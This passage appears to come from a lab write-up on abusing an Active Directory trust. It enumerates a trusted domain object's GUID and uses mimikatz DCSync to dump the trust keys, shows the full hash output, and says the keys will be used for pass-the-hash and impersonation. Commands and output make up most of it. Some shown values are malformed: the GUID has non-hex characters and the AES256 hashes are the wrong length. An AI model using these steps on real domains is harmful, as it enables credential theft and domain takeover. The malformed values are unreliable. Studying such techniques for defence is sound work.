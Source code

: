 We can dump the keys used for the TDO using `mimikatz` on the domain controller, however we'll also need to find the GUID of the TDO which we currently have the ability to enumerate.

```
PS C:\Users\daz\Documents> Get-DomainObject -Identity "CN=dan-feliciano.pro,CN=System,DC=dan-feliciano,DC=dev" | Select ObjectGuid

objectguid                          
----------
f5ksj19d-72rt-81lt-92d5-92jd27c109p2
```

Now that we have the GUID, we can dump the TDO using `mimikatz` and by performing a `dcsync`. What a DCSync will do in our case is have `mimikatz` act like a domain controller and dump all the credentials that it has access to on the current domain. Since we are supplying the GUID of the TDO, we can dump the respect `AES256`, `AES128`, and `RC4` hashes to the TDO.

```
PS C:\Users\daz\Documents> .\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:dan-feliciano.dev /guid:{f5ksj19d-72rt-81lt-92d5-92jd27c109p2}" "exit"

[DC] 'dan-feliciano.dev' will be the domain
[DC] 'dc.dan-feliciano.dev' will be the DC server
[DC] Object with GUID '{f5ksj19d-72rt-81lt-92d5-92jd27c109p2}'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dan-feliciano.pro

** TRUSTED DOMAIN - Antisocial **

Partner              : dan-feliciano.pro
 [ Out ] DAN-FELICIANO.PRO -> DAN-FELICIANO.DEV
    * 5/9/2024 9:46:13 PM - CLEAR   - 58 0d 24 aa 1f f8 07 2c 2a d4 a8 cc 68 93 6e 20 5f ad 3b 32 e0 51 8e cc f0
	* aes256_hmac       1. b48fcf2e5e6cf31e6ee73d35e1409aa0a903c44c514e024d6a2a30701ec6
	* aes128_hmac       b48fcf2e5e6cf31e6ee73d35e1409aa0
	* rc4_hmac_nt       e1087fb17c8e5b4f29c4e1c0cb161481

 [Out-1] DAN-FELICIANO.PRO -> DAN-FELICIANO.DEV
    * 5/9/2024 9:46:13 PM - CLEAR   - 58 0d 24 aa 1f f8 07 2c 2a d4 a8 cc 68 93 6e 20 5f ad 3b 32 e0 51 8e cc f0
	* aes256_hmac       b48fcf2e5e6cf31e6ee73d35e1409aa0a903c44c514e024d6a2a30701ec6
	* aes128_hmac       b48fcf2e5e6cf31e6ee73d35e1409aa0
	* rc4_hmac_nt       e1087fb17c8e5b4f29c4e1c0cb161481

```

In this output, we see two passwords in their `AES256`, `AES128`, `RC4` values. We're focused on the primary `[Out]` key and not the `[Out-1]` key, however it isn't an issue in our situation because it hasn't been 30 days since the creation of this trust. If 30 days were to pass since this point, then the passwords for both `[Out]` and `[Out-1]` might be different.

What makes these types of hashes so dangerous to use is that we can use them for Pass-the-Hash methods into Kerberos for a multitude of different use cases. You'll see that in the next part of the process, we'll use it to impersonate a user and interact with the domain however we'd like.
